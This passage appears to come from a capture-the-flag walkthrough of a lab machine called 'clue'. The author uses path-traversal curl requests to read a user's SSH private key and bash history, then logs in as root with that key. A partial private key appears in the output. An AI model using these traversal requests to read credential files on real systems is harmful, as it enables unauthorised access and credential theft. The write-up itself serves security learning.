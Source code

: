 Let's see if the `id_rsa` private key file exists.

```
cassie@clue:~$ curl localhost:444/../../../../../../../../home/anthony/.ssh/id_rsa --path-as-is
-----BEGIN OPENSSH PRIVATE KEY-----
...
ZwYkNviXUWKJc3nA8VpHj3Sx/K4s5mU6ZtYYmu+sEJqe2tB5tT43BawtQB5Bo8jgpuTvIR
idIGdFy7rGgZjqiHaR5qylpEOh3bwQ68EkyZUNO03yco3SpQd1OK6SmW3ZgsMTKZKzTSOK
IAs9TooaeIR6+r2/AAAADGFudGhvbnlAY2x1ZQECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

Indeed, the private key exists.

We can attempt to login as `Anthony` with this key.But before that, let's analyze one more interesting file, `.bash_history`.

```
cassie@clue:~$ curl localhost:444/../../../../../../../../home/anthony/.bash_history --path-as-is
clear
ls -la
ssh-keygen
cp .ssh/id_rsa.pub .ssh/authorized_keys
sudo cp .ssh/id_rsa.pub /root/.ssh/authorized_keys
exit
```

As we can see the public keys are being copied to his SSH directory and also to the **root** SSH directory.

Let's download the private key, set the file permission and then login in as **root**.

```
cassie@clue:~$ curl localhost:444/../../../../../../../../home/anthony/.ssh/id_rsa --path-as-is -o id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1823  100  1823    0     0   178k      0 --:--:-- --:--:-- --:--:--  197k
cassie@clue:~$ chmod 600 id_rsa
cassie@clue:~$ ls -l id_rsa
-rw------- 1 cassie cassie 1823 Aug  2 16:40 id_rsa
cassie@clue:~$ ssh -i id_rsa -l root 127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
...
Linux clue 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64
...
root@clue:~# id
uid=0(root) gid=0(root) groups=0(root)
```